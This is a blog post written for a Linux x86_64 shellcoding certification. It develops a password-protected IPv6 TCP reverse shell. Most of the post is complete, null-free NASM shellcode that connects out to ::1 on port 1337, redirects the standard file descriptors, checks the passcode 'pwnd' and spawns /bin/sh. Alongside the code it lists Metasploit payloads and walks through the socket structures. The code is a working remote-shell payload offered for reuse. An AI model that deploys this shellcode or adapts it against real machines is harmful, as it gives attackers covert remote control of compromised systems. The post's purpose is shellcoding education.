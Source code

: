 ```yaml
---
layout: single
title:  Password Protected TCP Reverse Shell (IPv6) - Linux x86_64
date: 2018-7-17
classes: wide
header:
  teaser: /assets/images/Password_Protected_TCP_Reverse_Shell_(IPv6)_Linux_x86_64/ReverseShellDemo.gif
---
```


Introduction
------------
In this post we will create a custom TCP reverse shell for Linux x86_64 architecture that requires password to spawn a shell. This post is a continuation of [Password Protected Tcp Bind Shell ~ Linux X86_64](https://ihack4falafel.github.io/Password-Protected-TCP-Bind-Shell-~-Linux-x86_64/) and since my previous posts include an in-depth analysis of the functions used in reverse shells we won’t spend too much time there.

Shellcode
---------
I've decided to create an IPv6 reverse shell this time around for two reasons, the first being I haven’t done any before and the second is for some reason `msfvenom` don’t have one for x86_64 so the final shellcode might be of use to somebody, maybe.

```sh
➜  ~ msfvenom -l payloads | grep linux/x64
    linux/x64/exec                                      Execute an arbitrary command
    linux/x64/meterpreter/bind_tcp                      Inject the mettle server payload (staged). Listen for a connection
    linux/x64/meterpreter/reverse_tcp                   Inject the mettle server payload (staged). Connect back to the attacker
    linux/x64/meterpreter_reverse_http                  Run the Meterpreter / Mettle server payload (stageless)
    linux/x64/meterpreter_reverse_https                 Run the Meterpreter / Mettle server payload (stageless)
    linux/x64/meterpreter_reverse_tcp                   Run the Meterpreter / Mettle server payload (stageless)
    linux/x64/shell/bind_tcp                            Spawn a command shell (staged). Listen for a connection
    linux/x64/shell/reverse_tcp                         Spawn a command shell (staged). Connect back to the attacker
    linux/x64/shell_bind_tcp                            Listen for a connection and spawn a command shell
    linux/x64/shell_bind_tcp_random_port                Listen for a connection in a random port and spawn a command shell. Use nmap to discover the open port: 'nmap -sS target -p-'.
    linux/x64/shell_find_port                           Spawn a shell on an established connection
    linux/x64/shell_reverse_tcp                         Connect back to attacker and spawn a command shell
➜  ~ 
```

Creating an IPv6 reverse shell is not rocket science, all we need is use `AF_INET6` as domain when calling `socket()` function and use IPv6 structure to specify what IP and port we want amongst other things (I used localhost `::1` in this case). Lastly, we need to accommodate for the structure length when calling `connect()` function using `RDX` register.

```c
Address format
           struct sockaddr_in6 {
               sa_family_t     sin6_family;   /* AF_INET6 */
               in_port_t       sin6_port;     /* port number */
               uint32_t        sin6_flowinfo; /* IPv6 flow information */
               struct in6_addr sin6_addr;     /* IPv6 address */
               uint32_t        sin6_scope_id; /* Scope ID (new in 2.4) */
           };

           struct in6_addr {
               unsigned char   s6_addr[16];   /* IPv6 address */
           };
```

The following is the final null-free shellcode. Please refer to the link of my previous post in the introduction section to learn more about `read()` function used in the password check routine.

```nasm
section .text

global _start

_start:

	; int socket(int domain, int type, int protocol)
	; rax=41, rdi=10, rsi=1, rdx=0
	xor esi,esi
	mul esi                
	inc esi
	push 10 
	pop rdi
	add al, 41
	syscall

	; save socket fd in rdi
	xchg rbx,rax

	; struct sockaddr_in6 struct
	push rdx			            ; scope id = 0
	mov rcx,0xFEFFFFFFFFFFFFFF      ; link local address ::1
	not rcx
	push rcx
	push rdx
	push rdx                        ; sin6_flowinfo=0
	push word 0x3905		        ; port 1337
	push word 10     		        ; sin6_family

	; int connect(int sockfd, const struct sockaddr *addr,socklen_t addrlen)
	; rax=42, rdi=rbx(fd), rsi=sockaddr_inet6, rdx=28 (length)
	push 	rbx
	pop 	rdi
	push 	rsp
	pop 	rsi
	push 	28
	pop 	rdx
	push 	42
	pop 	rax
	syscall

	; dup2 (new, old)
	; rax=33, rdi=new fd, rsi=0,1,2 (stdin, stdout, stderr)
	xchg   rsi, rax
	push 0x3
	pop rsi
_loop:
	push 0x21
	pop rax
	dec esi
	syscall
	loopnz _loop

	; read (int fd, void *bf, size_t count)
	; rax=0, rdi=0 (stdin), rsi=rsp, rdx=4 (pwnd)
	xor rax, rax
	push rax
	pop rdi
	push rax
	push rsp
	pop rsi
	push 0x4
	pop rdx
	syscall

	; check passcode (pwnd)
	push 0x646e7770
	pop rbx
	cmp dword [rsi], ebx
	jne _nop

	; int execve(cont char *filename, char *const argv[], char *const envp[])
	; rax=59, rdi=/bin//sh, rsi=0, rdx=0
	xor rax, rax
	push rax
	mov rbx, 0x68732f2f6e69622f
	push rbx
	push rsp
	pop rdi
	push rax
	push rsp
	pop rsi
	cdq
	push 0x3b
	pop rax
	syscall

_nop:
	nop
```

Now its demo time.

![](/assets/images/Password_Protected_TCP_Reverse_Shell_(IPv6)_Linux_x86_64/ReverseShellDemo.gif)

Closing Thoughts
----------------
I did learn a thing or two about IPv6 addressing while crafting this shellcode and I hope you did too. All of the above code are available on my [github](https://github.com/ihack4falafel/SLAE64/tree/master/Assignment%202) or [exploit-db](https://www.exploit-db.com/exploits/45039). Feel free to contact me for questions via Twitter [@ihack4falafel](https://twitter.com/ihack4falafel).

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certiﬁcation:

[http://www.securitytube-training.com/online-courses/x8664-assembly-and-shellcoding-on-linux/index.html](http://www.securitytube-training.com/online-courses/x8664-assembly-and-shellcoding-on-linux/index.html)

Student ID: SLAE64–1579
